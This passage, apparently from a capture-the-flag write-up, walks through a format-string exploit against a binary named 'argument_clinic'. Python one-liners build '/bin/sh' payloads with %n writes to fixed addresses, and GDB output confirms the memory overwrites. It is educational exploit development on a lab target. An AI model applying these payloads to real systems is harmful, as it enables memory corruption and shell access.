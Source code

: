 ```
Lastly, I'll add some extra spaces to leave room for us to play around with
really large %d tags without having to worry about offsets. Since we might
be printing 9-digit numbers in some cases, I'm going to add 16 spaces for
each of the three prints.

```
> python -c 'print "/bin/sh " + "................" + "%18$lx.." + "................" + "%19$lx.." + "................" + "%20$lx.." + "\x10\x11\x60\x00\x00\x00\x00\x00\x13\x11\x60\x00\x00\x00\x00\x00\x15\x11\x60\x00\x00\x00\x00\x00"' | ./argument_clinic
Write something already.
You entered: /bin/sh ................601110..................601113..................601115..`
You're still lame.
```

Now for the actual value writing. To make it easier to check that our exploit
is working at each step, we're going to want to run this in GDB. As a side note,
in GDB, if you run a program with something like ```r <<< $(python -c 'print "\x00\x61"')```, 
GDB will actually strip the null bytes from your input string, and therefore mess 
up a big part of our exploit. To get this to work in GDB, we'll want to run the python
command outside of GDB and save the output to a file (something like ```~/x1.txt``` so it's
fast to type). Then, in GDB, you run the program as ```r < ~/x1.txt```. 

To find the three values for our printing, we'll first convert the three hex values we
plan to write to decimal. 0x22 22 22 becomes 2236962, 0x22 ff f7 becomes 2293751, and
0x01 00 00 7f becomes 16777343. Since we're already printing 8 characters of /bin/sh,
our first specifier will be printing 2236962 - 8, or 2236954. To accomplish this,
we can do something like %2236954d, which will print a value from the stack padded to
be exactly 2,236,954 characters long. Let's add this first one in, and switch the
corresponding %lx to a %n so that it actually writes the value. Remember to delete or
add periods as necessary, to ensure that everything stays aligned properly:

```
> python -c 'print "/bin/sh " + "%2236954d......." + "%18$n..." + "................" + "%19$lx.." + "................" + "%20$lx.." + "\x10\x11\x60\x00\x00\x00\x00\x00\x13\x11\x60\x00\x00\x00\x00\x00\x15\x11\x60\x00\x00\x00\x00\x00"' > \~/p1.txt

(gdb) r < ~/x1.txt
```

If we add a breakpoint before running it, then we can check if our value was correctly
written after the printing finishes:

```
(gdb) x/4xw 0x601110
0x601110:      0x90222222      0x12345678      0x00000000      0x00000000
```

Perfect! We've written the bottom three bytes. If your values are slightly off,
you can add or remove to the value of the %d specifier accordingly. Next, we need
to write a value equal to 2,293,751. Since we've already written 2,236,962, we
only need to write 56,789 more characters. We can subtract 8 characters for the
specifier and 7 for the periods, so we'll try writing 56,774.

```
> python -c 'print "/bin/sh " + "%2236954d......." + "%18$n..." + "%56774d........." + "%19$n..." + "................" + "%20$lx.." + "\x10\x11\x60\x00\x00\x00\x00\x00\x13\x11\x60\x00\x00\x00\x00\x00\x15\x11\x60\x00\x00\x00\x00\x00"' > \~/p1.txt
